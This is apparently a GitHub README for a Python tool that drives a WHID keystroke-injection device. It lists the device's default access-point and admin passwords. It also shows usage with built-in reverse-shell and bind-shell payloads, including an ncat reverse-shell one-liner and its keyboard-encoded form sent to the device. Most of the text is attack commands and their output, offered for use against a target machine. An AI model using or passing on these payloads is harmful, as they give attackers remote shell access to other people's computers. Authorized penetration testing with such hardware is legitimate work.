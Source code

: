 # WHID Injector
**Disclaimer: Little project to interact with the WHID, mostly because I didn't wanted to modify the firmware to support my keyboard, feel free to improve it ;)**

What is it ? It's a simple script to send commands (french keyboard) from your terminal to the WHID Injector. It will automatically convert the "azerty" to "qwerty" format. Furthermore it has builtins payload such as reverse-shell and bind-shell.

Where to buy a WHID Injector ? I got mine from [Aliexpress](https://www.aliexpress.com/item/Cactus-Micro-compatible-board-plus-WIFI-chip-esp8266-for-atmega32u4/32318391529.html)

## How to start
Connect to the Access Point with the SSID "**Exploit**" with a password of "**DotAgency**".   
Open a web browser pointed to "**http://192.168.1.1**"    
The default administration username is "**admin**" and password "**hacktheplanet**".       
Remember to upgrade the firmware you will find the version 2.7 in this repository    
More info on the official Github : https://github.com/whid-injector/WHID

## How to use the script
```python
python3 WHIDInjector.py -v --host 127.0.0.1 --port 4242 --payload payloads/windows.txt -a -h                                                                          127 ↵
usage: WHIDInjector.py [-h] [-v] [--host [HOST]] [--port [PORT]]
                       [--user [USER]] [--pass [PASS]] [--panel [PANEL]]
                       [--payload [PAYLOAD]]

optional arguments:
  -h, --help           show this help message and exit
  -v                   Verbosity of the output
  --host [HOST]        Host reverse-shell
  --port [PORT]        Port reverse-shell
  --user [USER]        Wifi Panel username
  --pass [PASS]        Wifi Panel password
  --panel [PANEL]      Wifi Panel password
  --payload [PAYLOAD]  Payload template
```

Targeting a Windows OS
```
python3 WHIDInjector.py -v --host 127.0.0.1 --port 4242 --payload payloads/windows.txt
```

Send a simple reverse-shell payload
```python
$ python3 WHIDInjector.py -v --host 127.0.0.1 --port 4444                                                                                                                 1 ↵

     -------------------------------------------------------------
      WHID injector - You need to be connected to the Exploit AP
     -------------------------------------------------------------
                   __   °
                 <(o )___
                  ( ._> /
                   `---'                      @pentest_swissky

Enter a payload, eg: bash -c 'nohup ncat 127.0.0.1 4242 -e $SHELL &'
-------------------------------------------------------------------
>>> reverse
Payload:
Rem:Default Payload
Press:130+195
CustomDelay:1000
Print:bqsh 6c 4nohup ncqt !@&<)<)<! $$$$ 6e ]SHELL 14
CustomDelay:1000
Press:176

Sending payload to http://192.168.1.1/runlivepayload
```



# What's next  ?
TODO change_ssid_name    
TODO change_ssid_pass    
TODO update_firmware     
